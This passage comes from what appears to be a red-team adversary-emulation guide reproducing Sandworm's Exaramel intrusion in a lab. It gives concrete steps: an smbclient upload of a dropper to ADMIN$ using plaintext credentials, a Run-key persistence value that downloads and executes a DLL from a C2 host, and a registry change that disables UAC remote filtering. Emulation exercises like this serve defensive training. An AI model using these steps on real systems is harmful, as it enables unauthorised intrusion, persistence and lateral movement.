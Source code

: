 This causes the registry persistence to execute the Exaramel dropper.

The exaramel dropper downloads and executes an Exaramel DLL.


```
Compromised user info:

User:	fherbert@WORKGROUP

System: 10.0.1.7 / gammu

PsExec Service: Windows Check AV

File write: C:\\Windows\\wsmprovav.exe, C:\\Windows\\wsmprovav.dll

Registry Path: HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run

Key: SecurityHealth

Value: C:\Windows\wsmprovav.exe http://10.10.0.120:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll

Exaramel-Windows C2: 10.10.0.120:443 HTTPS

```

### :biohazard: Procedures

`Use python evironment (/root/myvenv/) to execute impacket`

:warning: Go back to your first terminal tab (P.A.S. Webshell); re-name it "PsExec-Gammu".

Upload Exaramel-Windows-Dropper.exe to gammu/10.0.1.7 as `C:\Windows\wsmprovav.exe`.

`??? Work with testlab\domain.admin but don't work with user testlab-victim6\victim6`

`Solution: UAC remote restrictions can be disabled by setting the registry value LocalAccountTokenFilterPolicy to 1`

```
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
Value: LocalAccountTokenFilterPolicy
Data: 1 (to disable, 0 enables filtering)
Type: REG_DWORD (32-bit)
```

```bash
# Sandworm Team has pushed additional malicious tools onto an infected system to steal user credentials, move laterally, and destroy data.

# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

smbclient -U 'TESTLAB-VICTIM6\VICTIM6' //192.168.20.74/ADMIN$ -c "put /home/hoangtn/Desktop/VCS-sandworm/Resources/Exaramel-Windows-Dropper/wsmprovav.exe wsmprovav.exe;" "VMT3st#123"
```
